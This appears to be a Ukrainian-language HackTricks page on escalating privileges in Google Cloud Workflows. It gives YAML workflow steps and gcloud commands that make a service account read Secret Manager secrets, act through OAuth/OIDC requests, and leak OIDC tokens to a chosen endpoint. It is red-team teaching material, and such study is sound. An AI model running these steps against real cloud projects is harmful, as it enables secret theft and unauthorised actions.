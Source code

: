 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Основна інформація:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Наскільки мені відомо, неможливо отримати shell з доступом до кінцевої точки метаданих, що містить облікові дані SA, пов'язані з Workflow. Однак, можливо зловживати дозволами SA, додаючи дії для виконання всередині Workflow.

Можна знайти документацію по коннекторам. Наприклад, це [**сторінка коннектора Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** У бічній панелі можна знайти кілька інших конекторів.

А тут ви можете знайти приклад конектора, який друкує секрет:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Оновлення з CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Якщо ви отримали помилку, наприклад, `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, просто **почекайте хвилину і спробуйте ще раз**.

Якщо у вас немає доступу до вебу, можливо, ви зможете запустити та побачити виконання Workflow за допомогою:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Ви також можете перевірити вихідні дані попередніх виконань, щоб знайти чутливу інформацію
{% endhint %}

Зверніть увагу, що навіть якщо ви отримаєте помилку, наприклад, `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` через те, що у вас немає цього дозволу, робочий процес був згенерований.

### Витік OIDC токена (та OAuth?)

Згідно [**документації**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), можливо використовувати кроки робочого процесу, які надсилають HTTP запит з токеном OAuth або OIDC. Однак, як і у випадку з [Cloud Scheduler](gcp-cloudscheduler-privesc.md), HTTP запит з токеном Oauth повинен бути до хоста `.googleapis.com`.

{% hint style="danger" %}
Отже, **можливо витікати OIDC токен, вказуючи HTTP кінцеву точку**, контрольовану користувачем, але для витоку **OAuth** токена вам **потрібен обхід** для цього захисту. Однак ви все ще можете **контактувати з будь-яким GCP API, щоб виконувати дії від імені SA**, використовуючи або конектори, або HTTP запити з токеном OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

З цією дозволом замість `workflows.workflows.create` можливо оновити вже існуючий робочий процес і виконати ті ж атаки.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
